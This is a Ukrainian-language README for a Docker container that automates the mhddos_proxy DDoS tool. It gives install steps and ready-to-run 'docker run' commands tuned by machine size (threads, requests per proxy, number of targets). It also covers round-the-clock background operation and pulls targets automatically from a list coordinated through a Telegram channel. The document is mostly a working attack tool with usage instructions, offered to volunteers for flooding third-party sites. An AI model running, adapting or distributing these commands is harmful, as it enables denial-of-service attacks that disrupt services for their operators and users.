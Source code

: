 # Опис docker

### ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows  
### ЯКЩО ВИ КОРИСТУВАЧ MAC - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_mac
### ЯКЩО ВИ КОРИСТУВАЧ LINUX - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_alexnest
  
### ЯКЩО ВИ ТАКИ ХОЧЕТЕ НАСИЛУВАТИ СВІЙ ПРОЦЕСОР ДОКЕРОМ - РОБІТЬ ТЕ ЩО НИЖЧЕ:  

ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) 
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє список машин по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D1%83-%D1%83-%D1%84%D0%BE%D0%BD%D1%96-247-%D0%BD%D0%B0-linux-%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80%D1%96-%D1%82%D0%B0-%D0%B4%D0%BE-%D0%B7%D0%B0%D0%B2%D0%B5%D1%80%D1%88%D0%B5%D0%BD%D0%BD%D1%8F-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D0%B8-%D0%BD%D0%B0-windows---%D0%BC%D0%BE%D0%B6%D0%BD%D0%B0-%D0%B7%D0%B0%D0%BA%D1%80%D0%B8%D0%B2%D0%B0%D1%82%D0%B8-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
[**Приклади команд НЕ у фон**](https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/docker/README.md#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%BD%D0%B5-%D1%83-%D1%84%D0%BE%D0%BD-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8%D0%B4%D0%BB%D1%8F-linux-%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%B9%D1%82%D0%B5-sudo-%D0%B0%D0%B1%D0%BE-%D0%BA%D1%80%D0%B0%D1%89%D0%B5-%D1%81%D1%82%D0%B0%D0%B2%D1%82%D0%B5-%D0%BD%D0%B0-%D0%BF%D1%80%D1%8F%D0%BC%D1%83-httpsgithubcomalexnest-uaauto_mhddos_alexnest)  

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм))

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері та до завершення роботи на Windows) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків (але не менше 1000, та не більше 6000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 5000)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=1500 rpc=1000 debug="" (1 ціль, 1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 2000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 4000 2000
```

5. Потужна машина(9+ CPUs + 16+ CB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 5000 2500
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці)  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 1000 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_no_debug.png?raw=true)
І після цього наступні 300 секунд НІЧОГО не буде виводитись, але це нормально
* Приклад З параметром --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_debug.png?raw=true)

* щоб подивитися що там працює у фоні(для Linux додайте sudo) та вбити процес:  
```
docker ps  -a
щоб вбити запущені раніше фонові підпроцеси на Linux прописуєте:  
sudo docker kill $(docker ps -aqf name=alexnestua)
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua
```



## Список цілей  

  
ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
